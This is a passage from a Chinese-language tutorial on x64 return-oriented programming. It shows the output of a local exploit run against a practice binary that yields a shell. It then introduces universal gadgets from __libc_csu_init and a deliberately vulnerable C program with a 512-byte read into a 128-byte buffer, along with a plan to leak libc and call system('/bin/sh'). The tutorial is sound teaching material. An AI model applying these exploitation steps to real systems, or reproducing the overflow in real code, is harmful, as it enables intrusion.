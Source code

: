 ``` bash
$ python level2_exp.py 
[*] '/home/buffer/\xe6\xa1\x8c\xe9\x9d\xa2/practice/ROP_x64/0x02/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './level4': pid 10853
binsh_addr_offset= 0x1479c7
pop_ret_offset= -0x2428e

##########receving system addr############

system_addr= 0x7f0357f17390
binsh_addr= 0x7f035805ed57
pop_ret_addr= 0x7f0357ef3102

###########sending payload###########

[*] Switching to interactive mode
Hello, World
$ whoami
buffer
```

### 0x04 通用gadgets

因为程序在编译过程中会加入一些通用函数用来进行`初始化操作`（比如加载libc.so的初始化函数），所以虽然很多程序的源码不同，但是初始化的过程是相同的，因此针对这些初始化函数，我们可以提取一些`通用的gadgets`加以使用，从而达到我们想要达到的效果。

为了方便大家学习x64下的ROP，level3和level4的程序都留了一些辅助函数在程序中，这次我们将这些`辅助函数`去掉再来挑战一下。目标程序level5.c如下：

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```

可以看到这个程序仅仅只有一个buffer overflow，也没有任何的辅助函数可以使用，所以我们要先想办法`泄露内存`信息，找到system()的值，然后再传递`“/bin/sh”`到`.bss段`, 最后调用system(“/bin/sh”)。因为原程序使用了`write()`和`read()`函数，我们可以通过`write()`去输出`write.got`的地址，从而计算出`libc.so在内存中的地址`。但问题在于write()的参数应该如何传递，因为x64下前6个参数不是保存在栈中，而是通过`寄存器传值`。我们使用ROPgadget并没有找到类似于`pop rdi, ret,pop rsi, ret`这样的gadgets。那应该怎么办呢？其实在x64下有一些万能的gadgets可以利用。比如说我们用objdump -d ./level5观察一下`__libc_csu_init()`这个函数。一般来说，只要程序调用了`libc.so`，程序都会有这个函数用来对libc进行初始化操作。

